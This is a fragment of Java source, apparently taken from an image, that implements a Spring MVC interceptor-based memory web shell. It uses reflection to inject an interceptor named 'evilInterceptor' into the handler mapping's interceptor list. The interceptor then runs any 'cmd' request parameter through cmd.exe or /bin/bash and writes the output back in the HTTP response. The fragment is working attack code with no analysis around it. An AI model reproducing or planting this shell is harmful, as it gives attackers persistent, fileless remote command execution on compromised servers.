 ```java
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        Field field = null;
        try {
            field = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        }
        field.setAccessible(true);
        List<HandlerInterceptor> adaptInterceptors = null;
        try {
            adaptInterceptors = (List<HandlerInterceptor>) field.get(mappingHandlerMapping);
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
        InceptorMemShell evilInterceptor = new InceptorMemShell();
        adaptInterceptors.add(evilInterceptor);
        System.out.println("ok");
    }

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            try {
                response.setCharacterEncoding("gbk");
                java.io.PrintWriter printWriter = response.getWriter();
                ProcessBuilder builder;
                String o = "";
                if (System.getProperty("os.name").toLowerCase().contains("win")) {
                    builder = new ProcessBuilder(new String[]{"cmd.exe", "/c", cmd});
                } else {
                    builder = new ProcessBuilder(new String[]{"/bin/bash", "-c", cmd});
                }
                java.util.Scanner c = new java.util.Scanner(builder.start().getInputStream(),"gbk").useDelimiter("wocaosinidema");
                o = c.hasNext() ? c.next(): o;
                c.close();
                printWriter.println(o);
                printWriter.flush();
                printWriter.close();
            } catch (Exception e) {
                e.printStackTrace();
            }
            return false;
        }
        return true;
    }

    @Override
    public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
        HandlerInterceptor.super.postHandle(request, response, handler, modelAndView);
    }

    @Override
    public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
        HandlerInterceptor.super.afterCompletion(request, response, handler, ex);
    }
```